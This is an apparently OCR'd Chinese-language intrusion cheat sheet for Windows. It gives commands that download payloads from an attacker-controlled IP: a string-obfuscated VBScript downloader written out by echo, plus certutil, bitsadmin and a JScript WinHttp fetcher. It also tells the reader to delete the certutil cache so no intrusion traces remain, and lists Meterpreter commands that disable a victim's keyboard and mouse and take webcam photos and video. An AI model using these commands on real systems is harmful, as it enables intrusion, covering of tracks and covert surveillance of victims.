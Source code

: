 echo set a=createobject(“adod”+”b.stream”):set w=createobject(“micr”+”osoft.xmlhttp”):w.open”get”,wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2 >> a.vbs

------

certutil下载文件：

certutil -urlcache -split -f http://自己ip/a.txt

会下载到本目录

有一个弊端：

每次下载的时候，都有留存，导致会留下入侵痕迹，所以每次下载之后，都要痕迹清理

certutil -urlcache -split -f http://自己ip/a.txt delete

校验hash值

certutil -hashfile c:\xxx.exe

如果文件被动过，hash值就会改变

加密解密文件：

certutil -encode c:\a.txt c:\en.txt

certutil -decode c:\en.txt c:\a.txt

------

使用bitsadmin下载

bitsadmin /rawreturn /transfer down http://自己ip/a.txt c:\a.txt

------

使用js下载

创建一个a.js

```
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");

WinHttpReq.Open("GET",WScript.Arguments(0),/*async=*/false);WinHttpReq.Send();

WScript.Echo(WinHttpReq.ResponseText);
```

cscript /nologo a.js http://自己ip/a.txt >> 123.txt

------

其他命令：

uictl [enable/disable] [keyboard/mouse/all] 开启/停用鼠标键盘

webcam_list 查看摄像头

webcam_snap 通过摄像头拍照

webcam_stream 通过摄像头开启视频
